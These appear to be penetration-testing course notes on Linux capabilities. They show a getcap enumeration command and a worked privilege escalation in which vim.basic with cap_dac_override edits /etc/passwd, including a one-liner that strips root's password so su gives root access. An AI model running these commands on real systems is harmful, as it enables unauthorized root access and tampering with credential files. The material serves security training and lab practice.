 
<a id="orga5208a4"></a>

### Enumerating Capabilities

It is important to note that these capabilities should be used with caution and only granted to trusted processes, as they can be misused to gain unauthorized access to the system. To enumerate all existing capabilities for all existing binary executables on a Linux system, we can use the following command:

1.  Enumeration

        find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
        
        /usr/bin/vim.basic cap_dac_override=eip
        /usr/bin/ping cap_net_raw=ep
        /usr/bin/mtr-packet cap_net_raw=ep
    
    This one-liner uses the find command to search for all binary executables in the directories where they are typically located and then uses the -exec flag to run the getcap command on each, showing the capabilities that have been set for that binary.

2.  Exploitation

    If we gained access to the system with a low-privilege account, then discovered the `dac_cap_override` capability:
    
        getcap /usr/bin/vim.basic
        
        /usr/bin/vim.basic cap_dac_override=eip
    
    For example, the `/usr/bin/vim.basic` binary is run without special privileges, such as with `sudo`. However, because the binary has the `cap_dac_override` capability set, it can escalate the privileges of the user who runs it. This would allow the penetration tester to gain the `cap_dac_override` capability and perform tasks that require this capability.
    
    Let us take a look at the `/etc/passwd` file where the user `root` is specified:
    
        cat /etc/passwd | head -n1
        
        root:x:0:0:root:/root:/bin/bash
    
    We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:
    
        /usr/bin/vim.basic /etc/passwd
    
    We also can make these changes in a non-interactive mode:
    
        echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd
        Matthheeww@htb[/htb]$ cat /etc/passwd | head -n1
        
        root::0:0:root:/root:/bin/bash
    
    Now, we can see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password.


<a id="orgeca8b6f"></a>

# Service-based Privilege Escalation
